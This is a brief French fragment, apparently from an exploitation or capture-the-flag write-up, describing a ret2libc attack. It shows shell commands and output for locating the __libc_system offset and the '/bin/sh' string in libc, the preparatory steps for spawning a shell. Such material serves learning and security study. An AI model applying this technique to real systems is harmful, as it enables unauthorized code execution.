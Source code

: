 ## Ret2libc - Exploit

Il nous faut:

 * L'adresse de `__libc_system`
 * Un pointeur vers `"/bin/sh"`

``` bash
$ nm -D libc6.so | grep __libc_system
0003e3e0 T __libc_system
```

``` bash
$ strings --radix=x libc.so | grep "/bin/sh"
15f771 /bin/sh
```
